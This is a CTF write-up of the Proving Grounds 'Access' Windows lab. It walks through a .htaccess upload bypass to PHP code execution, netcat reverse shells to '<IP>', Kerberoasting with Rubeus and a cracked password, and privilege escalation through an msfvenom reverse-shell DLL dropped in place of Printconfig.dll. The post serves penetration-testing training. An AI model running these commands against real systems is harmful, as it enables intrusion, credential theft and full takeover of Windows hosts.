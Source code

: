 ```yaml
---
title: "Proving grounds Play: Access"
layout: post
date: 2023-08-16 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play windows machine writeup"
---
```

## Walkthough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/Access/yt.png)](https://youtu.be/h1Br5umYxwc)

## Nmap

```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-16 07:12:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Fuzzing

### Directories

```text
/uploads
/assets
/icons
/forms
```                                

## File Upload Vulnerability

![Upload 01](/assets/images/CTF/Proving_Grounds/Access/up1.png)

Upload a `.htaccess` file to overwrite the file upload configuration in the apache.

**Content of .htacess file**

```text
AddType application/x-httpd-php .evil
```

Upload the php remote code execution code to the server with extension as `rce.evil`

![Upload 02](/assets/images/CTF/Proving_Grounds/Access/up2.png)

### RCE

![RCE 01](/assets/images/CTF/Proving_Grounds/Access/rce1.png)

- Upload netcat windows binary to the server.
- Obtain reverse shell by executing netcat command.

![RCE 02](/assets/images/CTF/Proving_Grounds/Access/rce2.png)

- Transfer PowerView.ps1 to the attacking machine.

**Extract Users Information**

```text
-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt                   
svc_apache               svc_mssql                
The command completed successfully.
```

## Kerberos Abuse

The user `svc_mssql` has Service Principal Name, hence kerberoasting takes place.

```text
serviceprincipalname          : MSSQLSvc/DC.access.offsec
```

[Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Run as below to obtain NTLM Hash.

```powershell
PS C:\xampp\tmp> .\Rubeus.exe kerberoast /nowrap
```

Copy the hash and crack it using john.

**Crack the hash**

![Crackthehash 02](/assets/images/CTF/Proving_Grounds/Access/crackhash.png)

Transfer [Invoke-Runas.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1) to the attacking machine. The script will allow us to run commands as certain users in the system using the username and password.

Obtain revese shell for user `svc_mssql` by using the invoke command to trigger the netcat reverse shell.

```powershell
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\nc.exe <IP> 4444 -e cmd.exe'
```

![Revshell 01](/assets/images/CTF/Proving_Grounds/Access/revshell1.png)

## Privilege Escalation

**Abuse SeChangeNotifyPrivilege.**

```powershell
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```

Bypass traverse checking allows us to perform seManageVolumeAbuse by performing dll hijacking.

[SeManageVolumeAbuse](https://github.com/CsEnox/SeManageVolumeExploit)

Transfer the binary to the remote machine and run as `svc_mssql` user.

```powershell
PS C:\xampp\tmp> .\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 916
DONE 
```

Create a dll file with windows reverse shell.

```sh
msfvenom -f dll -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=9090 -o Printconfig.dll
```

Transfer the dll file to the attacking machine and overwrite the file to the below location.

`C:\Windows\system32\spool\drivers\x64\3\Printconfig.dll`

![Copy](/assets/images/CTF/Proving_Grounds/Access/copy.png)

Switch to powershell and use the below trigger to obtain root.

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
[More...](https://github.com/CsEnox/SeManageVolumeExploit)

![trigger](/assets/images/CTF/Proving_Grounds/Access/trigger.png)

**Root shell Obtained**

![trigger](/assets/images/CTF/Proving_Grounds/Access/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).